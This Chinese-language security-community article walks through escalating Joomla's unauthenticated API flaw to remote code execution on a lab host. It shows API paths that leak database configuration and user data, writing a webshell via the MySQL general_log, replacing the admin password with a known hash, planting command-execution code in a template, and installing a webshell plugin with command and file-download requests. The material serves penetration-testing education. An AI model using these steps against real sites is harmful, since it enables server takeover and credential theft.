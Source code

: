 #  Joomla Unauthorized"后"渗透到RCE

Betta  [ 火线Zone ](javascript:void\(0\);)

**火线Zone** ![]()

微信号 huoxian_zone

功能介绍
火线Zone是火线安全平台运营的安全社区，拥有超过20,000名可信白帽安全专家，内容涵盖渗透测试、红蓝对抗等热门主题，旨在研究讨论实战攻防技术，2年内已贡献1300+原创攻防内容，提交了100,000+原创安全漏洞。

____

___发表于_

收录于合集

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234617.png)

**前言**

前文已经分析过了Joomla Unauthorized的漏洞成因，总的来说是由于函数array_merge()变量覆盖引起的，未授权的api接口很多。

  

 **Joomla Unauthorized RCE1**

api路径

  * 

    
    
    api/index.php/v1/config/application?public=true

http://joomla.net:8011/api/index.php/v1/config/application?public=true

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234619.png)

登录mysql写入webshell，有条件限制

  * 通过log写入webshell

  *   *   *   * 

    
    
    数据库的当前用户为ROOT或拥有FILE权限；（FILE权限指的是对服务器主机上文件的访问）明确网站路径general_log参数值为ONgeneral_log_file参数为webshell路径

  * 通过函数outfile写入webshell（该传统方式 **不可行** ）  

Joomla漏洞版本无注入点无法通过注入点和outfile函数写入webshell

  

 **Joomla Unauthorized RCE2** ****

 **  
**

 **进入后台administrator的方法1**  

通过未授权api

  * 

    
    
    api/index.php/v1/users?public=true

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234620.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234621.png)

可读取用户信息，使用社工方式暴力破解登录后台，利用进行RCE

  

 **进入后台administrator的方法2**

  * 修改模板文件

获取mysql权限后执行sql语句或者使用工具修改后端管理员密码或者其他用户密码，joomla有自己的加密算法，所以也没必要破解他们的加密方式，老版本搭建后使用用户的哈希值更换

  * 

    
    
    Toggle Menu->Users-Manage

![]()

  * 

    
    
    123456123456::$2y$10$GauLOsp1NBJLO0FGjlqhxOu8LZe9wconNuPwqgjX/pGxAqn7dL5ba

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234622.png)

修改admin的密码为该密码

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234623.png)

可登录后台

  

 **后台RCE的两种方式**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234624.png)

  * 

    
    
     Toggle Menu->System->Templates->Site Templates->cassiopeia

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234625.png)

修改模板文件,添加恶意代码实现命令执行，获取webshell

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234626.png)

测试webshell

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234627.png)

  * 导入恶意插件

项目地址

  * 

    
    
    https://github.com/p0dalirius/Joomla-webshell-plugin

路径  

  * 

    
    
    Toggle Menu->System-> Extensions

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234628.png)

下载地址

  * 

    
    
    https://github.com/p0dalirius/Joomla-webshell-plugin/releases/tag/1.1

上传下载的恶意插件  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234629.png)

上传成功后查看插件管理

  * 

    
    
    http://joomla.net:8011/administrator/index.php?option=com_installer&view=manage

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234631.png)

  

  * 

    
    
    http://joomla.net:8011/modules/mod_webshell/mod_webshell.php?action=exec&cmd=whoami

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234632.png)

成功执行命令

当前目录下创建一个1.txt,，文件内容如下

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234633.png)

  * 

    
    
    http://joomla.net:8011/modules/mod_webshell/mod_webshell.php?action=download&path=./1.txt

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234634.png)

文件内容为

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234635.png)

  

参考文章

https://github.com/p0dalirius/Joomla-webshell-plugin

https://vulncheck.com/blog/joomla-for-rce

  

往期推荐

[![]()](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247497860&idx=1&sn=4c71ce1396dba6f0880e45d74732c6e2&chksm=eaa970a4dddef9b2eedb3686dcb1b07e25c1bb3904bc6e5f9f349883ff4148013e9c37a0797c&scene=21#wechat_redirect)

[![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234636.png)](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247497953&idx=1&sn=0c825a2c7832e8b760ad45a77a1b8359&chksm=eaa970c1dddef9d745224f7fdcf496465ef248e460d520d335fa8b1e8f65899aba6efdc16b86&scene=21#wechat_redirect)

[![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234638.png)](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247497941&idx=1&sn=5a222c66d2a456b1c08a5bcbd6700535&chksm=eaa970f5dddef9e3f3d943bb064113b43a3665f76f36b7d26e021eb58ddd8ecad94c80c18ec5&scene=21#wechat_redirect)

  

![]()

火线Zone是火线安全平台运营的安全社区，拥有超过20,000名可信白帽安全专家，内容涵盖渗透测试、红蓝对抗、漏洞分析、代码审计、漏洞复现等热门主题，旨在研究讨论实战攻防技术，助力社区安全专家技术成长，2年内已贡献1300+原创攻防内容，提交了100,000+原创安全漏洞。  

欢迎具备分享和探索精神的你加入火线Zone社区，一起分享技术干货，共建一个有技术氛围的优质安全社区！

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

